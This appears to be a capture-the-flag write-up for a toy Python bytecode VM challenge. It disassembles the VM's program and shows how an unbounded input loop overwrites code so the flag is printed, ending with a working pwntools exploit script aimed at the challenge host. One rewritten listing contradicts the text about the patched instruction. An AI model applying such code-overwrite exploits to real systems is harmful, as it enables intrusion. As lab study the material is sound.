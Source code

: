 # Write Up for tiny-machine
Source code is given as python code
```
import sys

class TinyMachine():
    def __init__(self, memory):
        self.memory = memory
        self.ip = 0
        self.registers = [0, 0, 0, 0]
        self.halted = False

    def setIp(self, ip):
        self.ip = ip

    def run(self):
        if self.halted:
            return

        while True:
            try:
                opcode = self.memory[self.ip]

                if opcode in [0, 1, 2, 3, 4, 5]:
                    dest = self.memory[self.ip + 1]
                    src = self.memory[self.ip + 2]                

                if opcode == 0: #LOAD
                    self.registers[dest] = self.memory[self.registers[src]]
                    self.ip += 3
                elif opcode == 1: #STORE
                    self.memory[self.registers[dest]] = self.registers[src]
                    self.ip += 3
                elif opcode == 2: #MOV_R_IMM
                    self.registers[dest] = src
                    self.ip += 3
                elif opcode == 3: #MOV_R_R
                    self.registers[dest] = self.registers[src]
                    self.ip += 3
                elif opcode == 4: #ADD_R_R
                    self.registers[dest] = (self.registers[dest] + self.registers[src]) & 0xFF
                    self.ip += 3
                elif opcode == 5: #ADD_R_IMM
                    self.registers[dest] = (self.registers[dest] + src) & 0xFF
                    self.ip += 3
                elif opcode == 6: #JNZ
                    if self.registers[1] != 0:
                        dest = self.memory[self.ip + 1]
                        self.ip = (self.ip + dest) & 0xFF
                    else:
                        self.ip += 2
                elif opcode == 7: #JMP
                    dest = self.memory[self.ip + 1]
                    self.ip = (self.ip + dest) & 0xFF
                elif opcode == 8: #EXT
                    if self.registers[0] == 0:
                        self.registers[1] = sys.stdin.buffer.read(1)[0]
                    elif self.registers[0] == 1:
                        sys.stdout.write(chr(self.registers[1]))
                        sys.stdout.flush()
                    self.ip += 1
                else:
                    self.halted = True
                    return
            except Exception as e:
                halted = True
                return

FLAG = b'DH{xxxxxxxxxxxxxxxxxxxxxxxxx}' #25

memory = list(FLAG + b'\xFF' * 192 + b'\x02\x02\x1d\x07\x02\x08\x01\x02\x01\x05\x02\x01\x05\x01\xf6\x06\xf4\x02\x00\x01\x02\x02\x1d\x00\x01\x02\x08\x05\x02\x01\x05\x01\xf6\x06\xf6')
machine = TinyMachine(memory)
machine.ip = 221
machine.run()
print("test")
```

**memory** is a list with a structure of
```
FLAG(29) + Padding(192) + bytecode(35)
```

# Primitives
At first, **memory** looks disorderd. But we can analyze this in perspective of assembly <br>

There are 0, 1, 2 operands for each opcode <br>

1. LOAD, STORE, MOV_R_IMM, MOV_R_R, ADD_R_R, ADD_R_IMM => 2 operands(src, dest)
2. JNZ, JMP => 1 operand(dest)
3. EXT => No operand(Perform read/write based on reg[1])

After 2-operands operation, self.ip increases by 3, and 1-operand increses 2. So, we can reconstruct byte code like below
```
IP: 221  \x02\x02\x1d   MOV   reg[2], 29     ; Store 29 in register 2 (address after FLAG)
IP: 224  \x07\x02       JMP   +2             ; Increase IP by 2 (set IP to 226)
IP: 226  \x08           EXT                  ; Receive input (reg[0]=0 mode)
IP: 227  \x01\x02\x01   STORE [reg[2]], reg[1] ; Store input value to memory[reg[2]]
IP: 230  \x05\x02\x01   ADD   reg[2], 1      ; Increase register 2 by 1 (move to next memory address)
IP: 233  \x05\x01\xf6   ADD   reg[1], -10    ; Add -10 to register 1 (counter)
IP: 236  \x06\xf4       JNZ   -12            ; If reg[1]≠0, jump to IP = 224 (JMP instruction)
IP: 238  \x02\x00\x01   MOV   reg[0], 1      ; Store 1 in register 0 (switch to output mode)
IP: 241  \x02\x02\x1d   MOV   reg[2], 29     ; Store 29 in register 2 (return to same memory area)
IP: 244  \x00\x01\x02   LOAD  reg[1], [reg[2]] ; Load value from memory[reg[2]] to reg[1]
IP: 247  \x08           EXT                  ; Output (reg[0]=1 means output mode)
IP: 248  \x05\x02\x01   ADD   reg[2], 1      ; Increase register 2 by 1 (next position)
IP: 251  \x05\x01\xf6   ADD   reg[1], -10    ; Add -10 to register 1 (counter)
IP: 254  \x06\xf6       JNZ   -10            ; If reg[1]≠0, jump to IP = 244 (LOAD instruction)
```

Now We can find that there are two loops in this byte code: read and write <br>

Intended operation (I assume) is reading and filling bytes of padding part and printing it <br>

But, since there is no limit of register 2 value, we can overwrite code part <br>

We can change IP:241 part to initialize register 2 to 0 -> Can print from FLAG <br>

Rewritten byte code can be look like this
```
IP: 221  \x02\x02\x1d   MOV   reg[2], 29     ; Store 29 in register 2 (address after FLAG)
IP: 224  \x07\x02       JMP   +2             ; Increase IP by 2 (set IP to 226)
IP: 226  \x08           EXT                  ; Receive input (reg[0]=0 mode)
IP: 227  \x01\x02\x01   STORE [reg[2]], reg[1] ; Store input value to memory[reg[2]]
IP: 230  \x05\x02\x01   ADD   reg[2], 1      ; Increase register 2 by 1 (move to next memory address)
IP: 233  \x05\x01\xf6   ADD   reg[1], -10    ; Add -10 to register 1 (counter)
IP: 236  \x06\xf4       JNZ   -12            ; If reg[1]≠0, jump to IP = 224 (JMP instruction)
IP: 238  \x02\x00\x01   MOV   reg[0], 1      ; Store 1 in register 0 (switch to output mode)
IP: 241  \x02\x02\x1d   MOV   reg[2], 29     ; Store 29 in register 2 (return to same memory area)
IP: 244  \x00\x01\x02   LOAD  reg[1], [reg[2]] ; Load value from memory[reg[2]] to reg[1]
IP: 247  \x08           EXT                  ; Output (reg[0]=1 means output mode)
IP: 248  \x05\x02\x01   ADD   reg[2], 1      ; Increase register 2 by 1 (next position)
IP: 251  \x06\xf3       JNZ   -7             ; If reg[1]≠0, jump to IP = 244 (LOAD instruction)
```

# Exploit
Exploit code can be written like this <br>

Sending **\x00** is for IP:251 part, that is to finish the second loop. And sending **\n** is for finishing first loop 
```
from pwn import *

# p = process(['python3', 'tiny_machine.py'])
p = remote('host8.dreamhack.games',21257)

p.send(b'\x00')

for i in range(191):
    p.send(b'B')

program_malformed = b'\x02\x02\x1d\x07\x02\x08\x01\x02\x01\x05\x02\x01\x05\x01\xf6\x06\xf4\x02\x00\x01\x02\x02\x00\x00\x01\x02\x08\x05\x02\x01\x06\xf9'

for byte in program_malformed:
    p.send(bytes([byte]))

p.send(b'\n')

p.interactive()
```